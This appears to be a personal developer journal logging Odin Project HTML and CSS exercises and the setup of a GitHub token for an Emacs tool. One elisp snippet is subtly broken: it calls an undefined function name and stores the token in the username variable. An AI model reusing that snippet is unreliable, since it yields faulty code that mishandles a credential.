Surprisingly, it took me just about one hour to do those!
Good on you, ChatGPT!

** Seinfeld Checkmark

[[file:images/2025-10-04_seinfeld.jpeg]]

* [2025-10-03 Fri]
Today I start a new lesson, and a new branch on the assignment tree: /Cascade/, the *C* from CSS.
Just read the lesson text, and now am complementing with the Wikipedia article.
I realized that the more formal texts (like standards) work better for me.
Maybe it's because I like the /raw/ info/rules, and then make my own analogies.

Doing some clean-up on the 02-... assignment.
Also did some cleanup for the other assignments (portfolios should be good looking!)

** 01-cascade-fix
Finished this one today.
It was about that apparently bothers devs a lot: find out the culprit for unexpected styling behavior.
I like that type of mental game!

** Seinfeld Checkmark

[[file:images/2025-10-03_seinfeld.jpeg]]

* [2025-10-02 Thu]

Check out the links for each exercise, with all the action [[https://github.com/rafaelbeirigo/odin-css-exercises][here]].

** 02-class-id-selectors
Just finished second CSS Assignment, and added a checkmark to the [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main][main README of the tasks]].
This one I had to fix a minor detail after finishing it, and then looking at the recommended solution.
I didn't catch one shared property among elements, which could make code legibility and maintenance much easier.
Learned another one!

Now, out to busking, and later some more!

** 03-grouping-selectors
Back from busking, very tired.
But ready to code!

Used my free time to read ahead the [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/intro-to-css/03-grouping-selectors][next assignment]].
Let's get to it.
Done!
After 48 minutes.

For this exercise, I just went full LP, finished the assignment, and /only then/ commited the chunks.
It was much easier to get things flowing, but a little bit messier when dealing with text edits.
But I believe this is a nice approach.

** 04-chaining-selectors
This one was the quickest so far!
Again, LP, and then commit helped.

** 05-descendant-combinator
This was even quicker: 8 minutes!

And with it, I finished the first branch, =intro-to-css=!

** Seinfeld Checkmark
[[file:images/2025-10-02_seinfeld.jpeg]]

* [2025-10-01 Wed]
Today started with some final polishing on the [[https://github.com/rafaelbeirigo/odin-recipes][Recipes Project]].

Writing the commits before coding was a success.
Very comforting to code when you know there's a light at the end of the tunnel, and no rework will be necessary (well, maybe /less/ work...)

Just found out that the [[https://html.spec.whatwg.org/dev][HTML Specification has a version for developers]].
Did some reading, nice stuff.
But potentially a rabbit hole.
Will focus on [[https://www.theodinproject.com/][Odin]].

Now, I start learning CSS!

The action is happening in my [[https://github.com/rafaelbeirigo/odin-css-exercises/blob/main/foundations/intro-to-css/01-css-methods/README.org][forked repo of the CSS Exercises]].

** Notes from today
- I'm clocking my work, and this is helping to keep me grounded, and also learn realistic timetable expectations;
- CSS is fun
- Literate Programming is really helpful to organize the work, especially so when I must leave the work half-finished, and come back later: it's faster to hit the ground running with LP

** Seinfeld Checkmark

[[file:images/2025-10-01_seinfeld.jpeg]]

* [2025-09-30 Tue]
Back at it!

This new project felt too simple.
I kinda underestimated it and couldn't do something I wanted: a clean commit history from the beginning.
I'll try another approach today: write the commit messages /before/ coding.
Let's see how that goes.
(Still working on the [[https://github.com/rafaelbeirigo/odin-recipes][project Recipes from Odin]]).

Edit: You can see the final version of the page [[https://rafaelbeirigo.github.io/odin-recipes/][here]] (three recipes inspired on Harry Potter's books).

** Systems Thinking
Just heard about it this week.
I believe I applied it today.
I love it!

** Results: Writing the commits before coding
/Very/ helpful, much better!
Knowing that each task had a purpose, and that we would get to the final product was very empowering and calming.
I'd call it a success!

** Seinfeld Checkmark

[[file:images/2025-09-30_seinfeld.jpeg]]

* [2025-09-29 Mon]
Back to HTML!

We're approaching a project on Odin!

Starting with Git.

Just learned about Commit Messages.

Next is a project, and then we start CSS.

** Digression on Git

I have been thinking about yesterday's work, with lots of refactoring, while porting to LP.
It was difficult to keep a clean commit history.

I believe the best way to accomplish it is by planning beforehand.
I have some ideas, that I will experiment with in this next project.

** Project: Recipes

Check it out [[https://github.com/rafaelbeirigo/odin-recipes][here]].

** Seinfeld Checkmark

Hoje foi um dia difícil, mas consegui o X!

[[file:images/2025-09-29_seinfeld.jpeg]]

* [2025-09-28 Sun]
Thought of doing some elisp coding this sunday.
I have this [[https://github.com/rafaelbeirigo/ma-github][project that creates Github repositories directly from inside Emacs]].
As they say: "Life is better when you don't have to leave your editor".

Last time I touched it was 3 years ago.

Today I thought of checking it out, seeing how it stands, and maybe hacking it a bit.
So, for this coding, all the action will happen  [[https://github.com/rafaelbeirigo/ma-github/commits/dev/][commit history for the dev branch of the repository of that project]].

This is how it went.

** Create a Github token
*** First try: Generate a classic token with all the powers
**** Generate
I just checked out if I had the repo in my machine, and it was there.

Then I followed the repo's instructions to run it.
You need an *access token*, and I had to create one.
The proccess was cryptic:
- You have to choose the powers of your token;
- I wanted the power to *create a repository*;
- I couldn't find that option there.


After getting scared by the implications of them insisting on an /expiration date/ for the token, I wanted to create the least powerful, but still useful token.
Invested a dozen minutes trying to read throught the docs, and then realized *I was going down a rabbit hole*.

Decided on just creating the most powerful token possible, with a very short expiration date---seven days (/The Ring/, anyone?).
The steps were:

1. Open the [[https://github.com/settings/tokens/new][page to generate a /Classic/ token]]
2. Put on *Note*: ma-github
3. On *Expiration*: 7 days
4. On *Select scopes*: select everything
5. Click *Generate token*
6. Copy the generated token and paste it on a safe place

**** Access from inside Emacs
Here I Needed some help from ChatGPT:

#+begin_quote
i want to have my Github token accessed by Emacs
How should I do it?
#+end_quote

Then ChatGPT inspired me to change gears.

*** Second try (ChatGPT): Generate a fine-grained token with minimal powers
**** Generate
1. Go to the [[https://github.com/settings/personal-access-tokens][Github page to generate a fine-grained token]]
2. Click *Generate new token*
3. *Token name*: ma-github
4. *Resource owner*: the Github account where the repositories will be created
5. *Expiration*: 30 days
6. *Repository access*: All repositories
7. *Permissions*
   1. Click the *+* button on the upper-right corner
   2. Select *Administration*
   3. Click outside of the selection thingy to make it disappear
   4. On the new item *Administration*, change from *Read-only* to *Read and write*
8. Click *Generate token*
9. Click *Generate token* again, on the pop-up window
10. Copy the token
11. Paste it somewhere safe

**** Access from inside Emacs

***** Set up *authinfo*

1. Follow this [[https://www.masteringemacs.org/article/keeping-secrets-in-emacs-gnupg-auth-sources][instructions to create =~/.authinfo.gpg~]]

   1. Create a key

      1. Open a terminal and run the command

         #+begin_src shell :noweb no
         gpg --gen-key
         #+end_src

      2. Inform your real name and then your email

      3. It will generate a key in =~/.gnupg=

2. Create (or edit) the file =~/.authinfo.gpg= in Emacs. Use this format (one line per entry):

   #+begin_example
   machine api.github.com login YOUR_GITHUB_USERNAME password <YOUR_TOKEN>
   #+end_example

3. Change the permissions of the file to make it more secure

   #+begin_src shell :noweb no
   chmod 600 ~/.authinfo.gpg
   #+end_src

***** Fetch the token using *authinfo*

This code snippet uses the token created before to give =ma-github= access to Github.
It

1. Asks for a Github username, and then

2. Sets the environment variables needed by =ma-github=.

#+begin_src elisp :noweb no
;; ensure auth-source uses the default backends (it does by default)
;; Here is a tiny helper that reads the token and (optionally) sets env var:

(require 'auth-source)

(defun ma-github-token-from-authinfo (&optional username)
  "Find a GitHub token from auth-source for api.github.com and return the secret string."
  (let* ((host "api.github.com")
         (user (or username user-login-name))
         (entry (car (auth-source-search :host host :user user :max 1))))
    (when entry
      (let ((secret (plist-get entry :secret)))
        (if (functionp secret) (funcall secret) secret)))))

;; optional: make token available to Emacs subprocesses (e.g. `curl` from Emacs)
(let* ((user (read-string "Github username: "))
       (tok (my/github-token-from-authinfo user)))
  (when user
    (setenv "MA_GITHUB_USER" tok))
  (when tok
    (setenv "MA_GITHUB_TOKEN" tok)))
#+end_src

Now let's try and create a repo with ma-github.

#+begin_quote
M-x ma-github-create
#+end_quote

And here is the [[https://github.com/rafaelbeirigo/hello-ma-github][Github repository created using ma-github]]!

Now let's integrate the *auth-source* functionality.

Timeline (I tried, but too distracting!):

1. [2025-09-28 Sun 13:13] Breaking the code down in LP blocks.

2. [2025-09-28 Sun 13:13] info on defun optional arguments

3. [...] All the action is on the [[https://github.com/rafaelbeirigo/ma-github/commits/dev/][commit history for the dev branch]].

4. [2025-09-28 Sun 21:02] Ported to LP and tested: (ma-github-create NAME)

I tried my best to be organized, but it's messy.
Next step is to reorganize the commits.
Not for /functionality/, but /learning/.

** Seinfeld Checkmark

[[file:images/2025-09-28_seinfeld.jpeg]]

* [2025-09-27 Sat]
Starting later today.
Overslept.

Let's do this!

** Lists
#+begin_quote
To get some practice using lists, create a new HTML document and create the following lists:
1. An unordered shopping list of your favorite foods
2. An ordered list of todo’s you need to get done today
3. An unordered list of places you’d like to visit someday
4. An ordered list of your all time top 5 favorite video games or movies
#+end_quote

Create the structure for main HTML doc:

[[file:odin/assignments/foundations/lists/index.html][odin/assignments/foundations/lists/index.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
    <<food>>
    <<todos>>
    <<places>>
    <<games>>
  </body>
</html>
#+end_src

#+begin_quote
1. An unordered shopping list of your favorite foods
#+end_quote

~<<food>> +≡~

#+begin_src html :noweb-ref food :noweb no
<h1>My favorite foods</h1>
<ul>
  <li>Lasagna</li>
  <li>Pork ribs</li>
  <li>Avocado with lemon</li>
  <li>Oatmeal</li>
  <li>Warm bread with (real) butter</li>
</ul>
#+end_src

#+begin_quote
2. An ordered list of todo’s you need to get done today
#+end_quote

~<<todos>> +≡~

#+begin_src html :noweb-ref todos :noweb no
<h1>Todos for Todays</h1>
<ol>
  <li>Code a minimum of 1h</li>
  <li>Exercise and stretch</li>
  <li>Busking</li>
  <li>Play with dogs</li>
  <li>RPG with ChatGPT</li>
</ol>
#+end_src

#+begin_quote
3. An unordered list of places you’d like to visit someday
#+end_quote

~<<places>> +≡~

#+begin_src html :noweb-ref places :noweb no
<h1>Places I want to visit</h1>
<ul>
  <li>Paris</li>
  <li>Japan</li>
  <li>Portugal</li>
  <li>Germany</li>
  <li>Canada</li>
</ul>
#+end_src

#+begin_quote
4. An ordered list of your all time top 5 favorite video games or movies
#+end_quote

~<<games>> +≡~

#+begin_src html :noweb-ref games :noweb no
<h1>My favorite games of all time</h1>
<ol>
  <li>Zelda (Ocarina)</li>
  <li>Pokémon Blue/R./Y.</li>
  <li>Metal Slug</li>
  <li>Super Mario World</li>
  <li>Harvest Moon (NES)</li>
</ol>
#+end_src

** [2025-09-27 Sat 11:40] Links and Images
*** Links
:PROPERTIES:
:header-args:html: :session *links-and-images*
:END:
#+begin_quote
1. Create a new directory named odin-links-and-images.
#+end_quote

#+begin_src bash :noweb no
mkdir ./odin/assignments/foundations/odin-links-and-images
#+end_src

#+RESULTS:

#+begin_quote
2. Within that directory, create a new file named index.html.
3. Open the file in VS Code and fill in the usual HTML boilerplate.
#+end_quote

[[file:odin/assignments/foundations/odin-links-and-images/index.html][odin/assignments/foundations/odin-links-and-images/index.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
    <<body Content odin-links-and-images>>
  </body>
</html>
#+end_src

#+begin_quote
4. Finally, add the following h1 to the body:

<h1>Homepage</h1>
#+end_quote

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images :noweb no
<h1>Homepage</h1>
#+end_src

[2025-09-27 Sat 11:57] Pausing for lunch.

[2025-09-27 Sat 17:57] Coming back, after busking.

The Web is made out of links.
Let's add our first one.
We need to add an *anchor* element, and give it some attributes.
We'll leave a placeholder for the attributes.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images :noweb-seb nil :noweb no
<a
  <<attributes for Odin about page href>>
  >About the Odin Project.</a>
#+end_src

The first attribute contains the /link/ itself, and is called *href*.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href :noweb no
href="https://www.theodinproject.com/about"
#+end_src

The link now would open on the same tab.
Let's open in a new one, using the attribute *target*.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href :noweb no
target="_blank"
#+end_src

Now we add some security measures.
This new attribute and value prevents some dangers when linking to another page.
Possible attacks include phishing and tabnabbing.

~<<attributes for Odin about page href>> +≡~

#+begin_src html :noweb-ref attributes for Odin about page href :noweb no
rel="noopener noreferrer"
#+end_src

**** Relative links

Create a page on our own server.

*NOTE:* the =pages/= was added later in this assignment.

[[file:odin/assignments/foundations/odin-links-and-images/about.html][odin/assignments/foundations/odin-links-and-images/pages/about.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Odin Links and Images</title>
  </head>

  <body>
    <h1>About Page</h1>
    <<le Charles>>
  </body>
</html>
#+end_src

Add a /relative/ link to it on the main page.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images :noweb no
<a href="pages/about.html">About</a>
#+end_src

Let's organize it: add a folder for all the other pages besides =index.html=.

#+begin_src shell :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/ :noweb no
mkdir pages
#+end_src

#+RESULTS:

And move =about.html= there.

#+begin_src shell :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/ :noweb no
mv about.html pages
#+end_src

#+RESULTS:

*** Images
:PROPERTIES:
:header-args: :dir ~/dev/webdev-study/odin/assignments/foundations/odin-links-and-images/
:END:

Assignment.

#+begin_quote
1. Create a new directory named images within the odin-links-and-images project.
#+end_quote

#+begin_src shell :noweb no
mkdir images
#+end_src

#+RESULTS:

#+begin_quote
2. Next, download our practice image and move it into the images directory we just created.
3. Rename the image to dog.jpg.
#+end_quote

#+begin_src shell :noweb no
wget --output-document=images/dog.jpg https://unsplash.com/photos/Mv9hjnEUHR4/download?force=true&w=640
#+end_src

#+RESULTS:

Add the image to the home page, and the About one (using relative path).
Both will have some attributes that are the same.
Let's give them a placeholder.

~<<body Content odin-links-and-images>> +≡~

#+begin_src html :noweb-ref body Content odin-links-and-images :noweb no
<img src="./images/dog.jpg"
<<dog pic attributes>>
  >
#+end_src

Now add the pic to the About page, using a relative path to the parent folder.

~<<le Charles>> +≡~

#+begin_src html :noweb-ref le Charles :noweb no
<img src="../images/dog.jpg"
<<dog pic attributes>>
  >
#+end_src

Add the alternative text.

~<<dog pic attributes>> +≡~

#+begin_src html :noweb-ref dog pic attributes :noweb no
alt="A black dog (pug) with a gray wool blanket."
#+end_src

**** Image size attributes
Now the size attributes.

~<<dog pic attributes>> +≡~

#+begin_src html :noweb-ref dog pic attributes :noweb no
width="604" height="806"
#+end_src

*** [2025-09-27 Sat 19:37] Assignment on [[https://internetingishard.netlify.app/html-and-css/links-and-images/][Interneting]]
:PROPERTIES:
:header-args:
:END:

[[file:odin/assignments/foundations/interneting-links-and-images/links.html][odin/assignments/foundations/interneting-links-and-images/links.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Links</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Links</h1>
    <p>This particular page is about links! There are three kinds of links:</p>

    <ul>
      <<links>>
    </ul>
  </body>
</html>
#+end_src

[[file:odin/assignments/foundations/interneting-links-and-images/images.html][odin/assignments/foundations/interneting-links-and-images/images.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Images</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Images</h1>
    <p>This page covers common image formats, but you may also be looking for
      <a href='links.html'>links</a> and
      <a href='misc/extras.html'>useful extras</a>.
    </p>
    <<images>>
  </body>
</html>
#+end_src

[[file:odin/assignments/foundations/interneting-links-and-images/misc/extras.html][odin/assignments/foundations/interneting-links-and-images/misc/extras.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>Extras</title>
    <meta charset="UTF-8">
  </head>
  <body>
    <h1>Extras</h1>
    <p>This page is about miscellaneous HTML things,
      but you may also be interested in
      <a href='../links.html'>links</a> or
      <a href='../images.html'>images</a>.
    </p>
    <h2>Character Sets</h2>
    <p>You can use UTF-8 to count in Turkish:</p>
    <ol>
      <li>bir</li>
      <li>iki</li>
      <li>üç</li>
      <li>dört</li>
      <li>beş</li>
    </ol>
    <<Reserved Characters>>
    <<Curly Quotes>>
  </body>
</html>
#+end_src

Unzip images.

#+begin_src shell :dir odin/assignments/foundations/interneting-links-and-images/ :noweb no
unzip images-4149f7.zip
rm images-4149f7.zip
#+end_src

#+RESULTS:
| Archive:   | images-4149f7.zip |
| inflating: | -4149f7.zip       |

Absolute links.

~<<links>> +≡~

#+begin_src html :noweb-ref links :noweb no
<li>Absolute links, like to
  <a href='https://developer.mozilla.org/en-US/docs/Web/HTML'
    target='_blank'>Mozilla
    Developer Network</a>,
  which is a very good resource for web developers.
</li>
#+end_src

Relative Links.

~<<links>> +≡~

#+begin_src html :noweb-ref links :noweb no
<li>Relative links, like to our <a href='misc/extras.html'>extras page</a>.
</li>
#+end_src

~<<links>> +≡~

#+begin_src html :noweb-ref links :noweb no
<!-- This won't work for our local HTML files -->
<li>Root-relative links, like to the
  <a href='/'>home page</a>
  of our website, but those aren't useful to us right now.
</li>
#+end_src

Add the images.
First a JPG, good for *pictures* (large color palettes).

~<<images>> +≡~

#+begin_src html :noweb-ref images :noweb no
<h2>JPGs</h2>
<p>JPG images are good for photos.</p>
<img src='images/mochi.jpg' width='75'
<<alt jpg>>
  >
#+end_src

Then a GIF, for *animations*, (short color palettes, crude transparency).

~<<images>> +≡~

#+begin_src html :noweb-ref images :noweb no
<h2>GIFs</h2>
<p>GIFs are good for animations.</p>
<img src='images/mochi.gif' width='75'
<<alt gif>>
  >
#+end_src

Now a PNG, good transparency, large color palletes, but bigger than JPG.
Useful for small images that need good transparency, like icons and logos.

~<<images>> +≡~

#+begin_src html :noweb-ref images :noweb no
<h2>PNGs</h2>
<p>PNGs are good for icons and logos.</p>
<img src='images/mochi.png' width='75'
<<alt png>>
  >
#+end_src

Finally the SVG, /vector/ based (as opposed to /pixel/-): scales without loss of quality.
Use them instead of PNGs whenever possible.

~<<images>> +≡~

#+begin_src html :noweb-ref images :noweb no
<h2>SVGs</h2>
<p>SVGs are <em>amazing</em>. Use them wherever you can.</p>
<img src='images/mochi.svg' width='75'
<<alt svg>>
  >
#+end_src

~<<alt jpg>> +≡~

#+begin_src html :noweb-ref alt jpg :noweb no
alt='A mochi ball in a bubble'
#+end_src

~<<alt gif>> +≡~

#+begin_src html :noweb-ref alt gif :noweb no
alt='A dancing mochi ball'
#+end_src

~<<alt png>> +≡~

#+begin_src html :noweb-ref alt png :noweb no
alt='A mochi ball'
#+end_src

~<<alt svg>> +≡~

#+begin_src html :noweb-ref alt svg :noweb no
alt='A mochi ball with Bézier handles'
#+end_src

~<<Curly Quotes>> +≡~

#+begin_src html :noweb-ref Curly Quotes :noweb no
<p>If you&rsquo;re into &ldquo;web typography,&rdquo; you&rsquo;ll also find
   yourself using curly quotes quite a bit.
</p>
#+end_src

**** Reserved Characters
~<<Reserved Characters>> +≡~

#+begin_src html :noweb-ref Reserved Characters :noweb no
<h2>HTML Entities</h2>
<p> There are three reserved characters in HTML:
  <strong>&lt;</strong> <strong>&gt;</strong> and <strong>&amp;</strong>.
  You should always use HTML entities for these three characters.
</p>
#+end_src

** Seinfeld Checkmark
[[file:images/2025-09-27_seinfeld.jpeg]]

* [2025-09-26 Fri]
** Feel like snowballing.
Was drifting and rabbit-holling, as per usual
Checking out the [[https://www.theodinproject.com/dashboard][Odin Project]], thought it was cool they also develop /character/.
Grit, resilience, and the rollercoaster to mastery were eye-openers to me.

Asked ChatGPT for help there.
Got realistic market analysis, criticism about main goal, specific roadmap with projects, and milestones.

Started applying the Seinfeld checkmarks.
I want to code a minimum of 1 hour every day.
Almost procrastinated until I bought a cool sheet with the squares, but ended up doing it by hand.

[[file:images/2025-09-26_seinfeld.jpeg]]

I really like those sites that allow you to code online.
Did 3 min of Exercism, elisp.
But then felt guilty, because I was derailing from the reading materials from Odin.
I want to code in other languages, besides JS.
I'll make sure to include them.
I want it to be also fun and enjoyable :)

Decided to turn this into a journal for accountability.
A bit of afraid this will derail me (happened in the past), but more confident on my resilience and emotional regulation skills this time.
Let's see.

Reading a lot of the initial material from Odin.
Decided on the Foundations.
Gonna follow this one---and *not* derail!
Need to feel secure about this.
But have to be careful about rabbit holes.

Personally, I tend to try to become a "specialist" on every detail.
Many times I don't get past the first stages of the learning process.
Journaling helps me a lot here.

Just opened a new issue on Odin's page.
I want to start collaborating.
It's a really easy one, but it's a start.

Just found out I goofed-up: the /real/ issue was my eagerness...
The issue is non-existant: I misread the text...
Well, one good opportunity to learn about this current personality trait!

Fitst session of the day ended.
Could finish all the initial readings and setup stuff.

Next: HTML!

** Odin recommended a site that has some JS.
Let's see if I remember it.
It's the code to sum two numbers.
It's a bit more complicated, because involves accessing the DOM.
Let's simplify it.
Just sum the contents of two variables, and assign it to another variable.

#+begin_src js :noweb no
function sum (a, b) {
    let total = a + b;
    return total;
}
#+end_src

#+begin_quote
function NAME (ARGS) { STATEMENT; ... }
#+end_quote

And it returns with =return=.

Node.js is used to run JS in the server.

HTML: the page has *content*, which is enclosed in *tags*, forming *elements*.

An HTML tag is the markup language entity used to define elements with the content that will be shown on the page.

The element has
1. Opening tag;
2. Content;
3. Closing tag.


Void elements
- Don't have a closing tag; and
- Have no content.


We're coding, baby!

[[file:html-boilerplate/index.html][html-boilerplate/index.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <<head Block>>

  <<body Block>>
</html>
#+end_src

The =head= contains metadata and rendering instructions.
*No page content* here.
Always the first element inside =<html>=.

~<head Block> +≡~

#+begin_src html :noweb-ref head Block :noweb no
<head>
  <<charset>>
  <<title>>
</head>
#+end_src

Let's make sure all glyphs show correctly.

~<<charset>> +≡~

#+begin_src html :noweb-ref charset :noweb no
<meta charset="UTF-8">
#+end_src

Now the title.

~<<title>> +≡~

#+begin_src html :noweb-ref title :noweb no
<title>My first page from Odin</title>
#+end_src

~<<body Block>> +≡~

#+begin_src html :noweb-ref body Block :noweb no
<body>
  <<body Contents>>
</body>
#+end_src

Now add this to Emacs =web-mode=.

#+begin_src elisp :noweb no
(add-to-list 'web-mode-snippets
               '("my-odin-html-boilerplate"
                 "<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>My first page from Odin</title>
  </head>

  <body>
  </body>
</html>
"))
#+end_src

~<<body Contents>> +≡~

#+begin_src html :noweb-ref body Contents :noweb no
<h1>Hello, World!</h1>
#+end_src

And W3 validate, baby!

I did some coding in HTML, and some debugging in Emacs.  Either Org or =noweb= were misbehaving.
Didn't know which though---I just restarted Emacs, and everything went back to normal.
Could apply the steps recommended by Odin for analyzing the problem, and it helped.

** 1h Coding, Hello World, HTML Boilerplate
:PROPERTIES:
:header-args: :session hello world
:END:
End of the day, after busking.
Kinda desperate that I didn't code today's 1h.
But there's plenty of time.
Thought of doing some elisp, but wanna focus on JS.

Let's try Exercism.
Can't really do the exercises without knowing the language, and don't think grinding on Exercism is a good use of my time.

Gonna go back to Odin, even if it is more /theory/ now.
There's hopefully some coding even now in the beginning.
If not, I'll reserve some time later and code elisp.

** Working with Text
*** Create a blog post
#+begin_quote
Create a plain blog article page which uses different headings, uses paragraphs, and has some text in the paragraphs bolded and italicized.
You can use Lorem Ipsum to generate dummy text, in place of real text as you build your sites.
#+end_quote

[[file:odin/assignments/foundations/working-with-text/index.html][odin/assignments/foundations/working-with-text/index.html]] ≡

#+begin_src html :noweb no
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>Lorem ipsum</title>
  </head>

  <body>
    <h1>Phasellus neque orci, porta a, aliquet quis, semper a, massa</h1>
    <p>Aliquam erat volutpat.  Nunc eleifend <em>leo vitae magna</em>.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at <strong>peed</strong>.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod <strong>tellus id erat</strong>.</p>

    <h2>Donec hendrerit tempor tellus</h2>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <h3>Aliquam posuere</h3>
    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <h3>Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio</h3>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <h2>Mauris mollis tincidunt felis</h2>
    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <h3>Lorem ipsum dolor sit amet, consectetuer adipiscing eli</h3>
    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <p>Pellentesque dapibus suscipit ligula.  Donec posuere augue in quam.  Etiam vel tortor sodales tellus ultricies commodo.  Suspendisse potenti.  Aenean in sem ac leo mollis blandit.  Donec neque quam, dignissim in, mollis nec, sagittis eu, wisi.  Phasellus lacus.  Etiam laoreet quam sed arcu.  Phasellus at dui in ligula mollis ultricies.  Integer placerat tristique nisl.  Praesent augue.  Fusce commodo.  Vestibulum convallis, lorem a tempus semper, dui dui euismod elit, vitae placerat urna tortor vitae lacus.  Nullam libero mauris, consequat quis, varius et, dictum id, arcu.  Mauris mollis tincidunt felis.  Aliquam feugiat tellus ut neque.  Nulla facilisis, risus a rhoncus fermentum, tellus tellus lacinia purus, et dictum nunc justo sit amet elit.</p>
  </body>
</html>

#+end_src

** First Seinfeld checkmark!
And this coding session warranted me my first one Seinfeld checkmark!

